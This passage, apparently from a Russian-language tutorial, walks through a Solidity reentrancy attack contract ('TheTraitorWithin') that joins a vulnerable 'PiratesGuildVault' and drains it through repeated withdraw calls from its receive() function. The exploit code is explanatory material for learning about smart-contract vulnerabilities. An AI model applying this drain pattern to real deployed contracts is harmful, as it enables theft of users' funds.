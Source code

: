 ```solidity
    // Использование receive для продолжения атаки
    receive() external payable {
        emit FallbackTriggered(
            "Receive triggered during heist",
            msg.value,
            address(targetVault).balance
        );

        if (heistInProgress && address(targetVault).balance > 0) {
            targetVault.withdraw(1 ether); // Continue withdrawing funds in small chunks
        }
    }
}
```
Конструктор TheTraitorWithin инициализирует личность злоумышленника и устанавливает контракт целевого хранилища. Конструктор гарантирует,
что злоумышленник идентифицирован как развертыватель контракта и что он взаимодействует с указанным уязвимым хранилищем.

```solidity
constructor(address payable _vaultAddress) {
    targetVault = PiratesGuildVault(_vaultAddress);
    traitor = msg.sender;
}
```

Функция infiltrate позволяет злоумышленнику присоединиться к хранилищу в качестве легитимного члена. Вызвав функцию joinGuild на PiratesGuildVault,
вредоносный контракт получает привилегии члена хранилища, создавая основу для атаки. Он также выдает отладочное событие, чтобы зафиксировать факт проникновения.

```solidity
function infiltrate() external {
    require(
        msg.sender == traitor,
        "Only the traitor can infiltrate the bank!"
    );

    emit BankDebug(
        "The traitor infiltrates the bank",
        0,
        address(targetVault).balance
    );

    targetVault.joinGuild(); // Злоумышленник вступает в гильдию как легитимный член
}
```

Функция executeHeist инициирует атаку, сначала внося эфир в хранилище. Это позволяет контракту выглядеть как легитимным. Как только депозит внесен,
она запускает вывод средств, чтобы использовать уязвимость реентерабельности. Флаг heistInProgress гарантирует, что функция receive будет знать, когда продолжить эксплуатацию уязвимости.
